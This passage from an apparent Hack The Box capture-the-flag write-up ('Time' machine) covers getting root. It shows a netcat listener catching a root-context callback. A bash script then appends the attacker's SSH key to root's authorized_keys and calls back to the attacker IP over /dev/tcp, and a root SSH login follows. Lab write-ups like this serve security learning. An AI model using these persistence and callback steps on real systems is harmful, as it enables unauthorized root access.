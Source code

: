 ```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082 > time.key
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33196

┌──(zweilos㉿kali)-[~/htb/time]
└─$ cat time.key
uid=0(root) gid=0(root) groups=0(root)
```

It was definitely running as root.

```text
#!/bin/bash
echo 'ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBnfsDltTXRqAn25L5a+Z9ODhDJJYO8Wm37tG//hh4kyxcn6IhZ+pykEkDLSsLIUsomyvY5cC8hFLBw96Hs0w0U=' >>  /root/.ssh/authorized_keys
echo "Key away! Try to log in through SSH." > /dev/tcp/10.10.14.159/8082
```

Next I tried sending my SSH public key to `root`'s `authorized_keys` file. Each time I modified the script it only took a few seconds until it connected back, but just in case I added a message to let me know when it was done.

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ nc -lvnp 8082                                                                             148 ⨯ 1 ⚙
listening on [any] 8082 ...
connect to [10.10.14.159] from (UNKNOWN) [10.10.10.214] 33236
Key away! Try to log in through SSH.
```

### Root.txt

```text
┌──(zweilos㉿kali)-[~/htb/time]
└─$ ssh root@10.10.10.214 -i root.key                                                               1 ⚙
The authenticity of host '10.10.10.214 (10.10.10.214)' can't be established.
ECDSA key fingerprint is SHA256:sMBq2ECkw0OgfWnm+CdzEgN36He1XtCyD76MEhD/EKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.214' (ECDSA) to the list of known hosts.
Welcome to Ubuntu 20.04 LTS (GNU/Linux 5.4.0-52-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 16 Mar 2021 10:44:04 PM UTC

  System load:             0.31
  Usage of /:              18.6% of 27.43GB
  Memory usage:            27%
  Swap usage:              0%
  Processes:               237
  Users logged in:         0
  IPv4 address for ens160: 10.10.10.214
  IPv6 address for ens160: dead:beef::250:56ff:feb9:e959


168 updates can be installed immediately.
47 of these updates are security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
```